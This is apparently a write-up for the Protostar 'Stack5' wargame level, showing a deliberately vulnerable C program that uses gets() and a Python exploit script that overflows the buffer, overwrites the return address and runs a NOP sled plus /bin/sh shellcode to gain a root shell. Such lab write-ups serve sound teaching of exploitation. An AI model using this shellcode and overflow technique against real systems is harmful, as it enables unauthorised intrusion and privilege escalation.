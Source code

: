# Stack5

## Description
Stack5 is a standard buffer overflow, this time introducing shellcode.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution 
We are given the source code which contains nothing but an array buffer and we are supposed to introduce shellcode. This time we don't have any variable like modified or function like win. So we are supposed to add a shellcode to in the buffer to execute a shell. For this we can create a script and lookout for the address where the program terminates. Then we can add the NOP and our shellcode. This makes us the root user. We can doo this with the following commands and script.
```bash
(python /tmp/s/script.py ; cat) | /opt/protostar/bin/stack5
```
### Script.py
```python
import struct

padding = 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss'
eip = struct.pack("I",0xbffff7c0+30)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nop = "\x90"*100

print(padding+eip+nop+shellcode)
```
![screenshot](screenshot1.jpg)